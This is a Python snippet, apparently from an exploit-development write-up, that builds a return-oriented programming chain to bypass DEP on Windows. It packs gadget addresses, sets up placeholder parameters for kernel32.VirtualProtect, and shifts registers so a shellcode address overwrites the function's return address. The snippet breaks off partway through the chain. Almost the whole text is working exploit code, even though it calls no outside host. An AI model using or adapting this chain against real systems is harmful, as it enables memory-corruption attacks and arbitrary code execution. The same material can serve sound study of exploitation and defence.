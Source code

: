 ```python
# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
# Increase ECX C bytes (ECX right now contains old ESP) to equal address of the VirtualProtect return address place holder
# (no pointers have been created yet)
rop2 = struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)

# Move ECX into EDX, and increase it 4 bytes to reach location of VirtualProtect lpAddress parameter
# (no pointers have been created yet. Just preparation)
# Now ECX contains the address of the VirtualProtect return address
# Now EDX (after the inc edx instructions), contains the address of the VirtualProtect lpAddress location
rop2 += struct.pack ('<L', 0x6ffb6162)  # 0x6ffb6162: mov edx, ecx ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x50505050)  # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)

# Increase EAX, which contains old ESP, to equal around the address of shellcode
# Determine how far shellcode is away, and add that difference into EAX, because
# EAX is being used for calculations
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget

# Replace current VirtualProtect return address pointer (the placeholder) with pointer to shellcode location
rop2 += struct.pack ('<L', 0x6ff63bdb)   # 0x6ff63bdb mov dword [ecx], eax ; pop ebp ; ret  ;  (1 found)
```